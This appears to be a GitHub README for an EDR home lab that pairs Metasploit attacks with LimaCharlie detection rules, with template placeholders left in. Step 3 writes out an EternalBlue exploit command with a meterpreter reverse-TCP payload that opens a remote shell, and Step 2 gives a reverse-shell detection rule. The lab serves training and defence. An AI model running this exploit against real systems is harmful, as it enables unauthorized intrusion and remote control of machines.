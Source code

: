 # EDR Home Lab for Attack & Defense Simulation

## Objective
[Brief Objective - Remove this afterwards]

This lab simulates a realistic attack and defense scenario using Metasploit for offensive operations and LimaCharlie for endpoint detection and response (EDR). It is designed to provide hands-on experience in attack simulation, threat detection, and incident response.

### Skills Learned
[Bullet Points - Remove this afterwards]

- Installing and configuring the LimaCharlie agent on endpoints.
- Writing and deploying custom detection rules based on MITRE ATT&CK techniques.
- Monitoring endpoint activity (e.g., process creation, network connections, file system changes) using LimaCharlie’s dashboard.
- Using LimaCharlie to respond to threats (e.g., isolating an endpoint, terminating malicious processes).
- Utilizing Metasploit for penetration testing and attack simulation.
- Identifying and interpreting malicious activity through logs and telemetry.
- Using LimaCharlie to contain threats by isolating infected endpoints.
- Documenting and reporting findings to improve defensive strategies.
- Analyzing attack simulations and documenting responses.
- Problem-solving and troubleshooting during environment setup or attack execution.


### Tools Used
[Bullet Points - Remove this afterwards]

- Metasploit Framework: To simulate cyberattacks.
- LimaCharlie: For EDR capabilities such as telemetry, rule-based detections, and incident response.
- VirtualBox/VMware: To create isolated virtual environments.
- Kali Linux: The attacker machine. -Windows 10 VM: The target endpoint with a LimaCharlie agent installed.
- MITRE ATT&CK Framework: To map attack techniques for defense strategies.

## Steps
Step 1: 
Create the Environment Why: A controlled environment ensures safe experimentation.
Steps:
Install VirtualBox or VMware. Create a VM for Kali Linux (attacker machine).
![Screenshot 2024-11-29 080948](https://github.com/user-attachments/assets/04d0def3-687e-4d9e-a117-ee4ef306fe15)

Create a VM for Windows 10 (target machine). Allocate at least 2GB RAM and 20GB storage.
![Screenshot 2024-11-26 155738](https://github.com/user-attachments/assets/f3b44589-0c2f-4e9f-a273-960751090b43)

Install LimaCharlie agent on the Windows VM. Follow LimaCharlie’s agent installation guide.
![Screenshot 2024-11-26 155632](https://github.com/user-attachments/assets/6ca40403-2c66-476f-bd3d-b3fb901fad87)
![Screenshot 2024-11-26 155448](https://github.com/user-attachments/assets/95f0711f-79bf-492e-86d3-ffda3265d7b5)

Skills Learned:
Setting up and managing virtual machines. Configuring an EDR agent on endpoints. Step 2: Configure LimaCharlie Why: To monitor the target system’s activities and test detections.
Steps:
Sign up for a free LimaCharlie account. Add the Windows VM as an endpoint. Create detection rules (e.g., for reverse shell or privilege escalation). Example Rule: yaml Copy code name: "Detect Reverse Shell" detection: queries: - evt.type == "new_process" and process.command_line contains "powershell.exe" response:
tag_alert
isolate Skills Learned:
Configuring detection rules based on suspicious behaviors. Managing EDR platforms. Attack Simulation Step 3: Simulate an Attack with Metasploit Why: To replicate a real-world attack scenario and evaluate the defense system.
Steps:
Launch Metasploit on the Kali Linux VM. Use the EternalBlue exploit to target the Windows VM: Command: bash Copy code use exploit/windows/smb/ms17_010_eternalblue set RHOST [Windows VM IP] set PAYLOAD windows/meterpreter/reverse_tcp set LHOST [Kali Linux IP] set LPORT 4444 exploit Observe the behavior on the Windows VM (a reverse shell should be established). Skills Learned:
Using Metasploit to simulate attacks. Understanding exploit mechanisms. Ref 1: Network Diagram

